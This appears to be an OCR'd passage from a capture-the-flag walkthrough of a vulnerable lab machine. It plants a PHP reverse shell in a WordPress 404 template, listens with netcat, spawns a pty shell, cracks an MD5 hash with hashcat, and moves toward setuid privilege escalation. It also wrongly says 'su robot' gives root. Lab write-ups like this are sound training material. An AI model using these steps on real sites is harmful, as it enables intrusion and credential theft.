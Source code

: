 ```(wp scan)
	All Found                      

```	

Next as we are able to login to the admin-panel we will modify the 404 error page to get a reverse shell

we user the webshell located in kali

```(webshell)
locate php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

we modify the ip and port to our ip and port and then start listening on netcat for connections.

```(netcat server)
	nc -nlvp 4000
```

next we visit to any random page on http://$IP/random
and our reverse shell is executed.


Getting proper terminal from rawshell

```(proper shell using python)
	
	python -c 'import pty; pty.spawn("/bin/bash")'

```


After getting this terminal we locate the filesystem and find two interesting files in (/home/robot) directory.

we have a key file and a password file with hash. We can see the password but not the key file.
so, lets crack the md5-hash using hashcat or john and rockyou.txt wordlist.

```(cracking hash)

	echo "c3fcd3d76192e4007dfb496cca67e13b" > hash2.txt
	hash-identifier c3fcd3d76192e4007dfb496cca67e13b
	hashcat -m0 --force hash2.txt /usr/share/wordlists/rockyou.txt

```

After this we get the password for the user robot and we can use su robot to gain root access and read key2-of-3.txt


'''
	Key 2: 822XXXXXXXXXXXXXXXXXXXXXXXXX
'''

Priviledge Esclation:

Now lets look for files which have the setuid bit set for the user to get the flag on /root
